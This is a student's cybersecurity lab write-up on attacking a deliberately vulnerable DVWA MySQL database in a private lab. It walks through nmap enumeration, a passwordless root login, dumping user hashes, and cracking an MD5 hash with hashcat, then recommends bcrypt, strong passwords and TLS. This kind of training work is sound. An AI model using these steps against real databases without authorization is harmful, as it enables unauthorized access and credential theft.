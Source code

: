 
# 🔐 Lab 2: Cryptographic Attacks – Cracking Weak Password Hashes & Exploiting Poor Authentication in Databases

**👨‍💻 Author**: Raja Muhammad Haiqal Shah Bin Raja Muzairil Shah  
**📅 Date**: 25 April 2025  
**⏳ Time Allocation**: 3 Hours  
**📝 Total Marks**: 15  
**🧩 Lab Type**: Hands-On + Report + Demo/Debrief  

---

## 🧠 A. Lab Objectives

1. Identify and exploit cryptographic weaknesses in database authentication and password storage.
2. Perform offline hash cracking after discovering password hashes in a vulnerable database.
3. Investigate real-world cryptographic failures and propose secure solutions.
4. Document findings clearly in GitHub (Markdown) and present a short demo/debrief.

---

## 🛠️ Tools Used

- `nmap` (Service enumeration)  
- `mysql-client` (Database access)  
- `hashid` / `hash-identifier` (Hash detection)  
- `hashcat` / `john` (Hash cracking)  
- `wireshark` (Traffic analysis – optional)

---

## 🌐 IP Addresses

- **Attacker**: 192.168.106.130  
- **Victim**: 192.168.106.138  

---

## 🧩 B. Lab Tasks

### 1. 🔍 Service Enumeration and Initial Access

**Command Used:**

```bash
nmap -sV -p 3306 192.168.106.138 > nmap.txt
```

- Identified that **MySQL** was running on port **3306**.
- Confirmed open port and service details were written to `nmap.txt`.

![nmap](Screenshots/nmap.png)

**Connection Attempt:**

```bash
mysql -h 192.168.106.138 -u root --password=""
```

**Error Encountered:**
```
ERROR 2026 (HY000): TLS/SSL error: wrong version number
```

**Fix:**

```bash
mysql -h 192.168.106.138 -u root --password="" --ssl=0
```

![fixcommand](Screenshots/fixcommand.png)

✅ **Resolved**: TLS version mismatch between client and server.

> **Root Cause**:  
> MySQL < 5.7.11 does not support `--ssl-mode`. Use `--ssl=0` instead to disable SSL handshake.

---

### 2. 🧑‍💻 Enumeration of Users and Authentication Weaknesses

```sql
USE dvwa;
SHOW TABLES;
SELECT * FROM users;
```

- Found the `users` table containing usernames and **MD5 password hashes**.
- Chose user `admin` for further cracking.

![usernpass](Screenshots/usernpass.png)

**Saved hash to file:**

```bash
echo "5f4dcc3b5aa765d61d8327deb882cf99" > hash.txt
```

> ⚠️ **Reflection Question**:  
> Is accessing a database with no password a cryptographic failure?  
> ✅ **Yes**. It violates secure authentication practices by allowing unauthorized access due to missing or weak credentials.

---

### 3. 🔍 Password Hash Discovery & Identification

Used `hashid` and `hash-identifier`:

```bash
hashid hash.txt
```

- Detected as **MD5** hash.

![hashidentifier](Screenshots/hashidentifier.png)

> ⚠️ **Reflection Question**:  
> What cryptographic weaknesses exist in this hashing method?  
> - MD5 is **unsalted** and **fast**, making it susceptible to rainbow table and brute-force attacks.

---

### 4. 🧨 Offline Hash Cracking

Used **hashcat** to brute-force the MD5 hash:

```bash
hashcat -m 0 hash.txt --show > cracked_results.txt
```

✅ **Result:**
```text
5f4dcc3b5aa765d61d8327deb882cf99:password
```

![hashcatresult](Screenshots/hashcatresult.png)

**Cracked Password**: `password`

> Password entropy is low. "password" is one of the most common weak passwords.

---

### 5. 🔐 Cryptographic Analysis & Mitigation

#### 🔎 Identified Weaknesses:

| Component     | Issue                         |
|---------------|-------------------------------|
| Authentication | Empty/Weak passwords          |
| Hashing        | MD5 without salt              |
| Transmission   | Plaintext over network        |

#### 🔧 Recommendations:

- **Authentication**: Enforce strong password policies, apply rate-limiting or use `fail2ban`.
- **Hashing**: Replace MD5 with **bcrypt** or **Argon2** (both are memory-hard and slow).
- **Transmission**: Enable **SSL/TLS** encryption for database connections.

#### 🕵️ Wireshark Observation:

Captured raw data during database login. Password hashes and queries visible in plaintext.

![wireshark](Screenshots/wirehark.png)

---

## ✅ Conclusion

This lab demonstrated real-world cryptographic vulnerabilities that still exist in poorly configured systems. Weak authentication, outdated hashing, and unencrypted transmissions can all be exploited easily by attackers.

Securing such systems involves:
- Enforcing authentication best practices,
- Adopting strong, salted password hashing,
- Ensuring secure encrypted communication channels.

**Always audit legacy systems for these cryptographic flaws.** 🔐

---

🧠 *"Attack like a black hat. Defend like a white hat."* – Haiqal
